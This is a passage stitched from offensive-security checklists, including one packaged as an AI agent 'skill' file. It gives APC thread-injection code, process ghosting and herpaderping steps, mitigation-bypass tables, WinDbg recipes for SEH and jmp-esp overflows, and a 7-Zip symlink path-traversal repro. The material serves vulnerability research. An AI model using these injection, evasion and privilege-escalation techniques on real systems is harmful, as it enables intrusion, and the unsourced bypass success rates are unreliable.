void apc_setctx(HANDLE hThread, void *start, void *param) {
  CONTEXT c = { .ContextFlags = CONTEXT_FULL };
  GetThreadContext(hThread, &c);
  c.Rip = (DWORD64)start;   // e.g., kernel32!LoadLibraryW stub
  c.Rcx = (DWORD64)param;   // first argument
  SetThreadContext(hThread, &c);
  QueueUserAPC((PAPCFUNC)start, hThread, (ULONG_PTR)param);
}
```

#### ACG/CIG pathways

- Favor `MEM_IMAGE`‑mapped payloads (ghosting/doppelganging/herpaderping) over `MEM_PRIVATE` RWX
- Reuse existing RX regions (WASM/JIT) where policy allows; avoid creating fresh RWX
- Process Ghosting
  - Create transacted file → write signed‑looking image → roll back → map section as `MEM_IMAGE` → create process from section.
- Herpaderping
  - Create process then overwrite on disk via rename tricks; the in‑memory image remains `MEM_IMAGE` and passes loader checks.
- Doppelganging (TxF legacy)
  - Use TxF (where enabled) to create section from a transacted file, then abort the transaction post‑mapping.

All three avoid `MEM_PRIVATE` payloads that hotpatch checks reject in 24H2 (see Modern Mitigations → OS Loader changes).

#### Segment Heap notes

- Distinguish frontend (LFH/Segment) vs page backend corruption primitives
- PageHeap + verifier flags help triage; expect different grooming than classic NT Heap

### Mitigation Matrix (Quick Reference)

| Mitigation          | Default platforms (2025)          | Protects                       | Common bypass primitive                                     |
| ------------------- | --------------------------------- | ------------------------------ | ----------------------------------------------------------- |
| DEP / NX            | All major OSes                    | Code execution in data pages   | ROP/JOP pivot to RWX or change page permissions             |
| ASLR                | All                               | Base‑address disclosure        | Info leak + partial overwrite / brute‑force                 |
| CFG (v1)            | Windows 8.1+                      | Indirect calls integrity       | Abuse writable/exempt module, ret‑slide into target         |
| CET Shadow Stack    | Windows 10 2004+, Linux 6.1 (x86) | Return‑address integrity       | Disable CET (`SetProcessMitigationPolicy`) or pivot via JOP |
| XFG                 | Windows 11 22H2+                  | Indirect‑call target integrity | Use JOP gadgets or stub out guard function section          |
| GuardEHContinuation | Windows 11 24H2 (x64)             | SEH overwrite attempts         | JOP stub into verified handler region                       |
| MTE                 | Android 14+, Linux 6.8 (ARM64)    | Heap/stack OOB & UAF           | Tag brute‑force or TAGSYNC alias                            |
| CIG / ACG           | Windows 10+                       | Unsigned code / RWX pages      | Map signed RWX driver or relocate section                   |

### Exit Criteria

- Exploit succeeds on **clean target VM snapshot**.
- **No unintended crashes** after execution; system remains stable.
- **Execution time ≤ 30 seconds** (tune per target).
- **CI replay job** in `.github/workflows/exploit.yml` passes.
- **Regression corpus** added to fuzzing seed set.

#### Quick‑start

- Replay script: `scripts/repro.sh`
- rr recording helper: `scripts/record_rr.py`
- Coverage diff helper: `tools/afl_cov_compare.py`

### Debugging Techniques

- Strategic use of debuggers to analyze vulnerable applications
- Tracing execution flow and memory states
- Identifying exploitation opportunities

# getting the first item in the exception handler linked list, continue to see them using the `Next` param

# repeat the process several times to identify all bad chars
dds esp L5 # identify second argument
db <second_argument>

# finding a pop/pop/ret
.load wdbgext
!wdbgext.modlist
lm m <module_without_dep_aslr_safeseh>
$><G:\Projects\poppopret.wds
u <first_adr_found> L3

# run the following till after your short jump
t
!teb
s -b <stack_limit> <stack_base> 90 90 90 90 43 43 43 43 43 43 43 43
dd <shellcode_adr> L65
? <shellcode_adr> - <current_esp>
```

For general WinDbg commands:

```bash

# finding out a suitable jump stub
lm m syncbrs # to get start <addr> of a module named syncbrs
dt ntdll!_IMAGE_DOS_HEADER <addr> # to get e_lfanew that has the offset to PE header
? <pe_header> # to get the hex addr
dt ntdll!_IMAGE_NT_HEADERS64 <addr>+<pe_hex_header> # to get image optional header
dt ntdll!_IMAGE_OPTIONAL_HEADER64 <addr>+<pe_hex_header>+<pe_optional_header> # to get DllCharachteristics

# find an executable or module without DEP, ASLR
lm m libspp.dll # get the base address of the suitable module you found previously
s -b <mod_start_addr> <mod_end_addr> 0xff 0xe4 # find `jmp $esp` inside that module

# make sure the address doesn't contain bad chars
u <jmp_esp_addr> # to confirm
bp <jmp_esp_addr>

# override eip with jmp_esp_addr to force the program to jump to esp after buffer overflow
t
dc eip L4 # you should see the rest of your shellcode here

# HEAP information
!heap -s # to print heap information
dt _HEAP <heap_addr> # to print infromation regarding a heap
dt _LFH_HEAP <heap_addr> # to print information about a low fragmentation header heap

# attach to crashed application, identify the name of function that crashed
uf <crashed_function_name> # to see the function
dd rcx  # to checkout what got filled, replace rcx with the register name from above
dt _DPH_BLOCK_INFORMATION rcx-20 # usefull information
!heap -p -a rcx # call stack information, what led to this object being freed
```

### GitHub Actions snippet

```yaml
name: exploit-regression
on: [push, pull_request]
jobs:
  replay:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Build target container
        run: docker build -t vulnapp ./docker
      - name: Run exploit replay
        run: scripts/repro.sh --ci --target vulnapp
```

### Tested‑With Tool Matrix

| Tool / Framework   | Version  | Platform tested |
| ------------------ | -------- | --------------- |
| IDA Pro            | 8.4 SP1  | Windows 11 24H2 |
| Ghidra             | 11.0.2   | Debian 12       |
| BinDiff            | 10.8     | with IDA 8.4    |
| Ropper             | 2.0.7    | CET‑aware build |
| rr (record/replay) | Latest   | Ubuntu 24.04    |
| AFL++              | 4.10‑dev | snapshot mode   |

> [!TIP]
> Keep this matrix in each PoC directory so future contributors can reproduce results exactly.

#### Goals

##### Privilege Escalation

- Get SYSTEM Level Permissions
  - Steal the system token (find and copy the system token `PID 4` and replace your own token )
  - Patch privileges
  - sideload legitimately signed but vulnerable drivers, then exploit IOCTL write‑what‑where to disable security features or gain kernel R/W.

##### Code Execution

- Put unsigned code into the kernel via signed code
  - Modify kernel objects and structures
  - Pretend to be a driver
  - Don't upset Patch Guard

##### Environment Setup

- Check out [Windows Kernel Exploitation](/exploit/windows-kernel.md) for a detailed guide on setting up a kernel debugging environment

### Modern Exploitation

- Check out [Modern Samples](/exploit/modern-samples.md) for real-world examples
- For EDR evasion techniques, see [EDR](/exploit/edr.md)

#### Memory‑Safe Language Exploits (Rust / Go / Swift)

- `unsafe` blocks: `Vec::from_raw_parts`, `std::ptr::copy_nonoverlapping`, and `mem::transmute` misuse.
- FFI boundary bugs when calling into C libraries (size mismatch, lifetime errors).
- UB‑triggered out‑of‑bounds in WASM runtimes compiled from Rust.

### Browser Exploitation

- V8 TurboFan / Ignition JIT type‑confusion patterns and inline‑cache poisoning.
- Sandbox escapes via Mojo/IPC race conditions and shared‑memory UAFs.
- Site‑Isolation info‑leak techniques to defeat renderer‑process ASLR.

### Hypervisor & Container Exploitation

- VMware `Vmxnet3`, Hyper‑V enlightened IOMMU bugs, and QEMU `vhost‑user` integer overflows.
- `runC` / CRI‑O escape using malformed `seccomp` filters or WASM shims.
- Windows VBS disable paths through registry or vulnerable driver injection.

### Mobile Exploitation (iOS / Android)

- iOS Pointer Authentication Code (PAC) bypass using JOP chains and `ptrauth_sign_unauthenticated`.
- ARM Memory Tagging Extension (MTE) "sloppy‑tag" brute force and speculative **TikTag** leaks raise bypass reliability to ≈ 95 % on Android 14+; prepare a fallback ROP/JOP chain.
- Binder and ION heap UAF primitives for privilege escalation.

#### Apple Silicon (M1/M2/M3/M4) Exploitation

Modern Apple Silicon devices introduce unique security features and attack surfaces requiring specialized techniques.

##### Hardware Security Features

- **Pointer Authentication Code (PAC)**

  - `PACIA`/`PACIB` instructions create cryptographic signatures for return addresses and function pointers
  - **Bypass techniques**: JOP chains using `AUTIA`/`AUTIB` gadgets, `ptrauth_sign_unauthenticated` abuse, speculative PAC oracle attacks
  - Key management via `APIAKey` and `APIBKey` in system registers

- **Memory Tagging Extension (MTE)**

  - 4‑bit tags in upper address bits provide spatial and temporal memory safety
  - **Tag‑and‑sync bypass**: craft adjacent allocations with predictable tag patterns
  - **Speculative tag leaks**: use micro‑architectural side‑channels to read tag values

- **Hypervisor.framework Exploitation**
  - Type‑1 hypervisor running at EL2 with guest VMs at EL1
  - **Attack surface**: virtio device emulation, memory mapping hypercalls, interrupt injection
  - **Guest‑to‑host escape**: corrupt VTCR_EL2 stage‑2 translation tables or abuse SMCCC interface

##### macOS‑Specific Attack Vectors

- **XPC Service Exploitation**

  - Mach message parsing vulnerabilities in system services
  - **Privilege escalation**: target `com.apple.security.syspolicy` or `com.apple.windowserver` for TCC bypass
  - **Race conditions**: exploit concurrent XPC message handling in multi‑threaded services

- **Kernel Extension Loading**

  - System Integrity Protection (SIP) and Kernel Integrity Protection (KIP) bypass
  - **Technique**: abuse signed third‑party kexts with write‑what‑where primitives
  - **Post‑exploitation**: disable SMEP/SMAP via `SCTLR_EL1` manipulation

- **iOS/iPadOS Kernel Exploitation**
  - Zone allocator corruption via IOSurface or AGXAccelerator drivers
  - **Technique**: heap feng‑shui with predictable allocation patterns in `kalloc.16` or `kalloc.32` zones
  - **Sandbox escape**: corrupt task port to gain `host_special_port` access

##### Debugging & Analysis Setup

```bash

# Enable SIP bypass for kernel debugging (requires physical access)
csrutil disable --without kext --without debug

# LLDB kernel debugging setup
sudo nvram boot-args="debug=0x141 kext-dev-mode=1 amfi_get_out_of_my_way=1"

# PAC analysis with jtool2/iOS App Store extraction
jtool2 -d __TEXT.__text binary | grep -E "(PACIA|PACIB|AUTIA|AUTIB)"

# MTE tag analysis (requires iOS 16+ device with checkra1n/palera1n jailbreak)
ldid -S entitlements.plist target_binary  # Add get-task-allow for debugging
```

##### Mitigation Matrix (Apple Silicon)

| Mitigation                         | Coverage                    | Bypass Technique       | Success Rate |
| ---------------------------------- | --------------------------- | ---------------------- | ------------ |
| PAC                                | Return addresses, func ptrs | JOP/speculative oracle | ~70%         |
| MTE                                | Heap/stack OOB, UAF         | Tag brute‑force/TikTag | ~85%         |
| PPL (Page Protection Layer)        | Kernel code pages           | Hypervisor escape      | ~40%         |
| KTRR (Kernel Text Readonly Region) | Kernel .text segment        | Hardware vuln required | <10%         |

### Micro‑architectural & Speculative‑Execution Attacks

- Latest side‑channels: Retbleed, Downfall, Zenbleed, Inception (SRSO), SQUIP.
- Info‑leak primitives to derandomize ASLR or read kernel memory from user space.
- Mitigations: `IBPB`, `IBRS`, and fine‑grained hardware fences.

### eBPF & I/O Ring Kernel Primitives

- Craft verifier‑confusion jumps to obtain out‑of‑bounds read/write in eBPF JIT.
- Use Windows I/O Ring urb‑array double fetch to write kernel pointers.
- Post‑exploitation: pivot from arbitrary write to token‑stealing or privilege escalation.

### Firmware & UEFI Exploitation

- DXE driver relocation overflows and SMM call‑gate confusion for persistence.
- Exploiting capsule updates to downgrade firmware protections.
- Detecting and disabling Secure Boot from within UEFI runtime services.


### From `hunt-skills/fuzzing/offensive-bug-identification/SKILL.md`

## Metadata
- **Skill Name**: bug-identification
- **Folder**: offensive-bug-identification
- **Source**: https://github.com/SnailSploit/offensive-checklist/blob/main/bug-identification.md

## Description
Systematic bug identification methodology: source code review patterns, black-box testing strategies, taint analysis, dangerous function hunting, data flow tracing, and automated scanning setup. Use for code audits, bug bounty triage, or building vulnerability identification pipelines.

## Trigger Phrases
Use this skill when the conversation involves any of:
`bug identification, code review, taint analysis, dangerous functions, data flow, source audit, black box, vulnerability identification, static analysis, code audit, bug hunting`

## Overview

Bug identification is the process of discovering potential vulnerabilities in software through various techniques including static analysis, dynamic analysis, and fuzzing. This document outlines methodologies and tools for effective vulnerability research.

For practical exploit development, see [Exploit Development](/exploit/development.md).



### Phase 1: Reconnaissance

- **Target Enumeration:** Identify version, dependencies, configuration
- **Attack Surface Mapping:** List all input vectors, APIs, protocols
- **Documentation Review:** RFCs, specifications, developer docs
- **Prior Art Analysis:** CVE database, exploit-db, bug trackers

### Phase 2: Static Analysis

- **Source Review:** If available, focus on parsing/validation code
- **Binary Analysis:** Reverse engineering with Ghidra/IDA
- **Patch Diffing:** Compare vulnerable vs patched versions
- **SBOM Analysis:** Check third-party component vulnerabilities

### Phase 3: Dynamic Analysis

- **Behavioral Analysis:** Monitor syscalls, network, file I/O
- **Debugging:** Trace execution paths with controlled input
- **Instrumentation:** Coverage-guided exploration
- **Taint Analysis:** Track input propagation

### Phase 4: Fuzzing

- **Corpus Generation:** Create valid seed inputs
- **Harness Development:** Isolate target functionality
- **Coverage Monitoring:** Identify untested code paths
- **Crash Triage:** Classify and prioritize findings

### Phase 5: Exploitation

- **Primitive Development:** Convert bug to reliable primitives
- **Mitigation Bypass:** Defeat ASLR, DEP, CFG, etc.
- **Payload Development:** Create working exploit
- **Weaponization:** Package for real-world use (if authorized)

## Attack Surface Identification

Before diving into specific bug hunting techniques, it's essential to understand where to look for vulnerabilities.

### Windows User Mode

- Shared Memory
- RPC
- Named Pipes
- File & Network IO
- Windows Messages
- For authentication-related vulnerabilities, see [Windows Auth](/exploit/windows-auth.md)

### Kernel

- _Device Drivers_
  - Many third-party software with drivers to target
  - Can accept arbitrary user input via the `IOCTL` interface
  - Also performs actions when we `open,close` handles to it
- _OS_
  - Drivers that handle hardware and user input
  - Intercepts/transitions from user to kernel
- _Modern Linux interfaces (hotspots)_
  - **io_uring**: SQE size/offset confusions, submission/completion race windows, kernel copy‑sizes derived from user buffers
  - **userfaultfd**: cross‑thread write‑what‑where and TOCTOU primitives during fault handling
  - **seccomp user‑notifier**: confused‑deputy patterns in broker processes; notifier time‑of‑check vs time‑of‑use gaps
- _Hyper-V & VTL Interfaces_ – On many modern Windows 11 systems (especially 24H2 on supported hardware), Virtualization‑Based Security and VTL1 are enabled or easily enabled by policy. Treat the hypervisor surface (e.g., `hvix64.exe` and synthetic MSRs) as a common kernel target, and verify VBS/HVCI status on the host before assuming defaults.

### Drivers

- _DriverEntry_: registers for any callbacks, setup structure, etc
- _I/O Handlers_: handlers that get called when a process attempts to `open,close,etc` the driver, `IOCTL` allows driver functionality to be called from user processes
- Practical triage example (CVE‑2025‑8061):
  - IOCTL handlers that accept a fixed‑size struct and pass a user‑controlled `PHYSICAL_ADDRESS` directly to `MmMapIoSpace`
  - then memcpy out/in mapped memory (sometimes via wrappers that swap src/dst) indicate physical memory read/write primitives.
  - Similarly, unguarded MSR read/write paths yield `RDMSR/WRMSR` primitives.
- See the Lenovo `LnvMSRIO.sys` case study in [windows-kernel.md](/exploit/windows-kernel.md)

### eBPF & XDP

- **BPF helpers and verifier**: pointer leaks, verifier bypass, JIT bugs
- **User‑entry vectors**: `bpf()` syscall, privileged pods in Kubernetes, Cilium datapath
- **Tooling**: `bpftool`, verifier logs, `bpftrace` scripts for quick triage
- **CO‑RE skeletons** (`bpftool gen skeleton`) simplify packaging portable tracing probes.
- **BPF LSM** hooks allow low‑overhead coverage feedback on security‑critical kernel paths; export events with `trace_pipe`.

### Container & Micro‑VM Surface

- Namespace/cgroup escapes, device‑mapper abuse, races in snapshotting backends (e.g., overlayfs)
- Micro‑VM hypercalls in Firecracker, CloudHypervisor, Kata Containers
- For detailed container exploitation techniques, see [Container](/exploit/container.md)

### Cloud‑Native & IAM Bugs

- Misconfigured IAM policies, privilege‑escalating API actions (AWS `sts:AssumeRole`, Azure Golden SAML)
- SSRF paths into metadata services (`169.254.169.254`, IMDSv2 bypass techniques)
- Race conditions in managed control‑plane components (Kubernetes API server, AWS Lambda workers)
- Kubernetes Attack Vectors: look at [kubernetes](/pentest/kubernetes.md) for a deeper checklist
- **Serverless Vulnerabilities:**
  - Lambda layer poisoning
  - Function URL authentication bypass
  - Event injection through SQS/SNS/EventBridge
  - Cold start race conditions

### Network / Transport Protocol Parsers

- **QUIC / HTTP/3**: coalesced frames, reorder/timing corner cases; verify against RFC 9000 (QUIC) and RFC 9114 (HTTP/3)
- **HTTP/2**: stream state machine desync; flow‑control integer edge cases (RFC 7540)
- **gRPC / Protobuf**: length truncation across language FFI, map/list coercion; see gRPC framing and protobuf varint rules
- **GraphQL**: input coercion and resolver recursion limits; check GraphQL spec for type coercion semantics

### WebAssembly Runtimes

- WASM JIT optimization bugs in V8, Wasmtime, Wasmer
- WASI sandbox escapes through host‑call interfaces
- Typed‑Func‑Refs, GC, Tail‑calls, Memory64 expand type/bounds confusion surface. See the WebAssembly proposals status page for current rollout and engine adoption.
- **Checklist**:
  - validate table element types/import signatures/hostcall marshalling
  - fuzz mixed 32/64-bit memories.
  - _Fuzzing tip_: compile native libs to WASM for fast, deterministic mutation cycles

#### Modern V8 Architecture (2024-2025)

V8 now uses a multi-tier JIT pipeline with distinct exploitation characteristics:

- **Ignition (Interpreter):** Bytecode interpreter; rarely targeted directly
- **Maglev (Mid-tier JIT):** Introduced Chrome 115+; simpler IR than TurboFan
- **TurboFan (Optimizing JIT):** Aggressive optimization; traditional exploitation target
- **Turboshaft:** New IR replacing TurboFan internals; different optimization patterns create new bug classes
  - Type lattice changes affecting confusion bugs
  - Maglev → Turboshaft transition paths expose state inconsistencies
  - Node-based to block-based IR transition

#### V8 Maglev Exploitation

- Integer overflow in Maglev's fast-path arithmetic
- Corrupted HeapNumber backing store via Maglev bounds check bypass
- Map/ElementsKind confusion in polymorphic inline caches

#### WebAssembly JSPI (JavaScript Promise Integration)

- **Stack Heap Spray:** Suspended WASM stacks allocated on heap; predictable layout
- **Type Confusion:** `WebAssembly.Suspending` wrapper type mismatch
- **Info Leak:** Stack pointers exposed through Promise resolution chains
- **Sandbox Escape:** JSPI bridges JS/WASM boundary; bypass traditional WASM isolation

#### Spectre-BHB Browser Mitigations

- **Chrome 120+:** Site Isolation per-frame; shared array buffer restrictions
- **Firefox 122+:** Process-per-site with BHI fences in JIT trampolines
- **Safari 17.4+:** WebKit JIT speculation guards on type checks

#### Site Isolation Plus

- **Frame-level process isolation:** Each cross-origin frame in separate process
- **Cross-origin memory protection:** Hardware-backed memory isolation
- **New IPC attack surface:** Mojo interface exploitation required for escapes
- **Renderer → Browser requirements:** Need Mojo race or type confusion
- New Info-Leak Requirements:
  - Traditional `SharedArrayBuffer + Atomics` timing attacks less reliable
  - Need alternative side-channels: CSS timing, WebGL shader execution, AudioContext
  - Cross-origin info leaks require chaining multiple primitives

#### Practical Browser Exploitation Workflow

1. **Target Selection:**
   - V8 Maglev for Chrome/Edge (faster development cycle = more bugs)
   - JSC for Safari (less scrutiny than V8)
   - SpiderMonkey for Firefox (IonMonkey/Warp still viable)

2. **Primitive Development:**
   - `addrof`: Leak object addresses (info leak)
   - `fakeobj`: Craft fake object (type confusion)
   - `arbread/arbwrite`: Arbitrary memory access
   - `shellcode`: RWX page or WASM JIT abuse

3. **Sandbox Escape:**
   - Mojo IPC race conditions
   - GPU process exploitation via WebGL
   - Utility process TOCTOU (Chrome's new architecture)

4. **Post-Exploitation:**
   - Chrome: Target browser process via Mojo
   - Safari: XPC service exploitation for sandbox escape
   - Firefox: Target parent process via IPC

### Firmware & Embedded

- UEFI DXE driver flaws, BMC web console auth bypass, ECU/CAN message injection
- BLE & Zigbee stack overflows, heap exploits in `btstack`, `lwIP`

### macOS / Apple‑Silicon Kernel

- IOKit user‑client input validation, IOMFB allocator corner‑cases
- Hypervisor.framework fuzzing with `hv_fuzz`

#### iOS 17+ Exploitation

- **PAC Bypass:** Pointer Authentication Code bypass via signing gadgets
- **PPL Bypass:** Page Protection Layer exploitation for kernel r/w
- **Secure Enclave:** SEP exploitation via malformed Mach messages
- **Neural Engine:** ANE kernel driver attack surface

#### Android 14+ Exploitation

- **MTE (Memory Tagging):** Probabilistic bypass with tag collisions
- **GKI (Generic Kernel Image):** Vendor hooks as attack surface
- **Scudo Hardening:** Heap exploitation with hardened allocator
- **Hardware Attestation:** Keymaster/StrongBox TEE attacks

#### Cross-Platform Mobile

- **Flutter:** Dart VM type confusion, FFI boundary issues
- **React Native:** JavaScript bridge serialization bugs
- **Unity:** IL2CPP memory corruption, native plugin vulnerabilities

#### Package Manager Vulnerabilities

- **Dependency Confusion:** Internal vs public package name conflicts
- **Typosquatting:** Similar package names (numpy vs numpi)
- **Manifest Manipulation:** Lock file poisoning, version pinning bypass
- **Build-time Injection:** Malicious install scripts, post-install hooks

#### CI/CD Pipeline Analysis

- **GitHub Actions:** Workflow poisoning via PR from forked repos
- **Jenkins:** Groovy script injection, plugin vulnerabilities
- **Docker:** Build argument exploitation, base image substitution
- **Secrets Exposure:** Environment variables in build logs, artifact leakage

### AI & LLM Application Security

- Prompt‑injection, sandbox boundary escapes, hidden‑channel data exfil
- See [AI Security](/pentest/ai.md) for a deeper checklist

### Confidential‑Computing / TEE Surface

- **Intel TDX**: diff `tdx.ko` or `tdx_psci.c` between kernel LTS branches to spot new GPA→HPA validation checks.
- **AMD SEV‑SNP**: look for unchecked `VMGEXIT` leafs in PSP firmware; `sevtool --decode` helps locate IDA entry points.
- **Arm CCA / RMM**: analyze SMC handlers inside Realm Management Monitor (RMM) EL3 firmware.
- **Cloud offerings (Azure CCE, Google C3)**: focus on paravirtualised MMIO and attestation report flows exposed to guests.
- For TEE-specific exploitation, see [Secure Enclaves](/exploit/secure-enclaves.md)

### GPU & vGPU Surface

- **HGX HMC (verify CVE/advisories)**: research indicates malformed NVLINK‑C2C packets can corrupt HMC register space; confirm against vendor advisories for the specific platform.
- **vGPU manager IOCTLs**: diff `nvidia‑vgpu‑mgr` monthly; watch `VGPU_PLUGIN_IOCTL_GET_STATE` and similar calls for unchecked buffers.
- **LeftoverLocals info‑leak**: contiguous VRAM allocations can leak data from prior tenants in multi‑tenant AI clusters.

#### Side-Channel Analysis

- **Power Analysis:** DPA/SPA attacks on cryptographic operations
- **Electromagnetic (EM):** Near-field probing of processor emissions
- **Timing Attacks:** Cache timing, branch prediction analysis
- **Acoustic:** Key extraction via CPU sound emissions

#### Fault Injection

- **Voltage Glitching:** Brown-out attacks on secure boot
- **Clock Glitching:** Skip instruction execution
- **Laser Fault Injection (LFI):** Targeted bit flips
- **EM Pulse Injection:** Wider area fault induction

#### Hardware Implants & Supply Chain

- **PCB Modification:** Added components, trace rerouting
- **Firmware Backdoors:** UEFI/BMC persistent implants
- **Hardware Trojans:** Malicious logic in ICs
- **DMA Attacks:** PCIe, Thunderbolt, FireWire exploitation

#### Common vulnerability types in EDR drivers

- Authorization bypass issues
- Memory corruption in IOCTL handlers
- Race conditions in driver communication
- Improper input validation
- For detailed EDR analysis techniques, see [EDR](/exploit/edr.md)

#### Research methodology

1. Identify accessible driver interfaces
2. Reverse engineer IOCTL/message handlers
3. Analyze authorization mechanisms
4. Test for input validation flaws
5. Look for race conditions and memory corruption

#### Tools for driver analysis

- IDA Pro / Ghidra for reverse engineering
- WinDbg for dynamic analysis
- Process Monitor for behavior analysis
- Custom fuzzing tools for interface testing

#### Quick triage rubric (post‑crash)

- Buffer overflow vs UAF: check access type, allocation lifetime, and red‑zones (ASan/KASAN reports)
- Integer issues: trace size/length and allocation math; look for truncation/casts
- Logic bugs: unexpected state transitions without memory errors; validate auth/flags
- Info‑leaks: uninitialized reads, OOB reads, pointer/string formatters

#### Coverage‑first recon checklist

- Produce one baseline coverage run (e.g., `drcov`, Intel® PT, or Lighthouse import)
- Identify cold paths reachable from attacker inputs
- Seed corpus: include minimal valid examples that traverse target parsers
- Enable lightweight oracles (ASan/UBSan/KASAN) where feasible to maximize signal

## Static Analysis Methods

Static analysis examines code without execution to identify potential vulnerabilities.

### Manual Code Review

- Installing the target application and examining its structure
- Enumerating the ways to feed input to it
- Examine the file formats and network protocols that the application uses
- Locating logical vulnerabilities or memory corruptions
- For Windows-specific techniques, see [Windows Kernel](/exploit/windows-kernel.md)
- For Linux-specific techniques, see [Linux](/exploit/linux.md)

### Patch Diffing

Patch diffing compares vulnerable and patched versions of binaries to identify security changes.

#### What is Patch Diffing

Patch diffing is a technique to identify changes across versions of binaries related to security patches. It compares a vulnerable version of a binary with a patched one to highlight the changes, helping to discover new, missing, and interesting functionality across versions.

##### Benefits

- **Single Source of Truth**: Without a CVE blog post or sample POC, a patch diff can be the only source of information to determine changes and deduce the original issue.
- **Vulnerability Discovery**: While understanding the original issue, you may discover additional vulnerabilities in the troubled code area.
- **Skill Development**: Patch diffing provides focused practice in reverse engineering and helps build mental models for various vulnerability classes.

##### Challenges

- **Asymmetry**: Small source code changes can drastically affect compiled binaries.
- **Finding Security-Related Changes**: Security patches often include other changes like new features, bug fixes, and performance improvements.
- **Minimizing Noise**:
  - Diff the correct binaries to avoid analyzing unrelated updates
  - Reduce the time delta between compared versions
  - Use binary symbols when available to add precision to comparisons

#### Tools

- IDA Pro with plugins like DarunGrim and Diaphora
- BinDiff Works with analysis output from IDA or Ghidra
- [Ghidriff](https://github.com/clearbluejar/ghidriff): Ghidra binary diffing engine
- Radare2 (radiff2)
- Ghidra Version Tracking Tool
- Ghidra 11 built-in Partial Match Correlator

#### Patch Diffing Workflow

The process of patch diffing typically follows these steps:

1. **Preparation**
   - Create a diffing session
   - Load binary versions (vulnerable and patched)
   - Ensure binaries pass preconditions
   - Run auto-analysis on both binaries

2. **Evaluation**
   - Run correlators to find similarities
   - Generate associations between binaries
   - Evaluate matches between functions
   - Accept matching functions
   - Analyze differences until sufficient understanding is reached

3. **Function Analysis**
   - **Identify new functions**: Functions in the patched binary with no match in the original
   - **Identify deleted functions**: Functions in the original binary with no match in the patched version
   - **Identify changed functions**: Functions that exist in both versions but have been modified
   - Focus on functions with security relevance (often indicated by their names or based on CVE descriptions)

4. **Interpreting Results**
   - New functions often indicate added security checks or validation
   - Changed functions may show modified logic for handling edge cases
   - Correlate changes with public CVE information when available
   - Remember that patches are not necessarily atomic - multiple issues may be fixed in one update

When using Ghidra's Version Tracking:

- Use "Show Only Unmatched Functions" filter to identify new or deleted functions
- Look for functions with a similarity score below 1.0 to find modified functions
- Examine the modified functions to understand what security checks were added

Starting with Ghidra 11 (December 2024) a built-in _Partial Match Correlator_ covers most PatchDiffCorrelator use-cases; install the plugin only if you need bulk-mnemonics scoring.

#### Case Study: 7‑Zip Symlink Path Traversal

- Target: 7‑Zip 24.09 (vulnerable) → 25.00 (fixed)
- File of interest: `CPP/7zip/UI/Common/ArchiveExtractCallback.cpp`
- High‑signal edits: absolute‑path detection and link‑path validation for WSL/Linux symlinks converted on Windows.

##### Minimal security‑relevant diff (simplified):

```cpp
-bool IsSafePath(const UString &path)
+static bool IsSafePath(const UString &path, bool isWSL)
{
  CLinkLevelsInfo levelsInfo;
-  levelsInfo.Parse(path);
+  levelsInfo.Parse(path, isWSL);
  return !levelsInfo.IsAbsolute
      && levelsInfo.LowLevel >= 0
      && levelsInfo.FinalLevel > 0;
}

+bool IsSafePath(const UString &path);
+bool IsSafePath(const UString &path)
+{
+  return IsSafePath(path, false); // isWSL
+}

-void CLinkLevelsInfo::Parse(const UString &path)
+void CLinkLevelsInfo::Parse(const UString &path, bool isWSL)
{
-  IsAbsolute = NName::IsAbsolutePath(path);
+  IsAbsolute = isWSL ? IS_PATH_SEPAR(path[0]) : NName::IsAbsolutePath(path);
  LowLevel = 0;
  FinalLevel = 0;
}
```

##### Root cause (logic):

- Linux/WSL symlink data containing a Windows‑style path (e.g., `C:\...`) was treated as relative by the Linux absolute‑path check, setting `linkInfo.isRelative = true`.
- `SetFromLinkPath` prefixed the symlink’s zip‑internal directory when building `relatPath`, letting `IsSafePath(relatPath)` pass despite an absolute Windows target.
- A subsequent “dangerous link” guard checked `_item.IsDir`; non‑directory symlinks skipped the validation.
- Result: symlink creation to arbitrary absolute Windows paths; extracted files written into the link target.

##### Practical triage checklist:

- Search this file for: `IsSafePath`, `CLinkLevelsInfo::Parse`, `SetFromLinkPath`, `CloseReparseAndFile`, `FillLinkData`, `CLinkInfo::Parse`, `_ntOptions.SymLinks_AllowDangerous`.
- Verify absolute‑path detection across OS semantics (Linux vs Windows) and that relative/absolute status cannot be desynced by mixed‑style paths.
- Ensure “dangerous link” checks run for both files and directories; avoid `_item.IsDir` short‑circuiting validation for file symlinks.
- Confirm `IsSafePath` evaluates the final target path after concatenations; normalize before validation.

##### Quick repro (Windows, developer mode or elevated):

- Create zip structure:
  - `data/link` → symlink to `C:\Users\<USER>\Desktop`
  - `data/link\calc.exe` → payload file
- If `link` is extracted first, subsequent writes follow the symlink into the absolute target directory.

#### Apple Patch Diffing

- Identify a CVE of interest
- Download corresponding IPSW and update and N-1
  - use [ipsw.me](https://ipsw.me/) to download those files
  - convert the downloaded `.ipsw` to `.zip`
- Determine changes for update
  - you can use [IPSW tool](https://github.com/blacktop/ipsw) to download and diff
- Map binaries to CVE
- Extract the related file(s)
- Diff the binaries
  - In Ghidra set Decompiler Parameter ID to true
  - Leverage [IDAObjectTypes](https://github.com/PoomSmart/IDAObjcTypes)
- Root cause the vulnerability

```bash

# Downloading the correct IPSWs
ipsw download --device Macmini9,1 -V -b 23A344
ipsw download --device Macmini9,1 -V -b 23B74

# Comparing two different IPSWs
ipsw diff UniversalMac_14.0_23A344.ipsw UniversalMac_14.1_23B74.ipsw

#### Windows 11 Patch Diffing

This checklist mirrors the Apple IPSW workflow but uses Microsoft tooling and build numbers.

1. Identify the target update
   - Open **Settings → Windows Update → Update history** or consult the Windows Release Health dashboard to note the **KB** and **OS build** numbers (e.g., _KB5037778 → build 22631.3525_).
   - Record the previous build you want to diff against (e.g., _22631.3447_).

2. Collect the binaries

```bash
winbindex download tcpip.sys 10.0.22631.3447 10.0.22631.3525

mkdir pre,post
wget -Uri https://www.catalog.update.microsoft.com/Download.aspx?q=KB5037778 -OutFile kb.msu
expand -F:* .\kb.msu .\post

# Requires Debugging Tools for Windows
foreach ($ver in '3447','3525') {
    symchk /r .\$ver /s SRV*https://msdl.microsoft.com/download/symbols
}
```

4. Load in the disassembler
   - Open _tcpip.sys_ from both **pre** and **post** folders in **IDA 8+** or **Ghidra 11**; ensure PDB symbols resolve.
   - Save the IDA databases (e.g., `tcpip_3447.i64`, `tcpip_3525.i64`).

5. Run the diff
   - **BinDiff 7**: _Tools → BinDiff → Diff Database…_ and select the two IDBs to generate a `.BinDiff` report.
   - **Ghidriff** (headless):
     ```bash
